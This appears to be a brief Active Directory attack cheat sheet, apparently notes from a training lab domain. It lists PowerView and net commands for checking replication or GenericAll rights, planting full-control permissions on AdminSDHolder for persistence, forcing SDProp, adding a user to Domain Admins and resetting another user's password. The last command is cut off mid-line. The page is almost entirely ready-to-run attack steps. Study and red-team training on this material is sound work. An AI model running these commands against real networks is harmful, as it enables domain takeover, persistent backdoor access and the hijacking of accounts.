 # ACL

**Check if student has replication rights**

```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "<username>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

**Add fullcontrol permissions for a user to the adminSDHolder**

```
Add-ObjectAcl -TargetADSprefix ‘CN=AdminSDHolder,CN=System’ PrincipalSamAccountName <username> -Rights All -Verbose
```

**Run SDProp on AD (Force the sync of AdminSDHolder)**

```
Invoke-SDPropagator -showProgress -timeoutMinutes 1

#Before server 2008
Invoke-SDpropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

**Check if user got generic all against domain admins group**

```
Get-ObjectAcl -SamaccountName “Domain Admins” –ResolveGUIDS | ?{$_.identityReference -match ‘<username>’}
```

**Add user to domain admin group**

```
Add-DomainGroupMember -Identity ‘Domain Admins’ -Members <username> -Verbose
```

or

```
Net group "domain admins" sportless /add /domain
```

**Abuse resetpassword using powerview\_dev**

```
Set-DomainUserPassword -Identity <username> -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -F
```
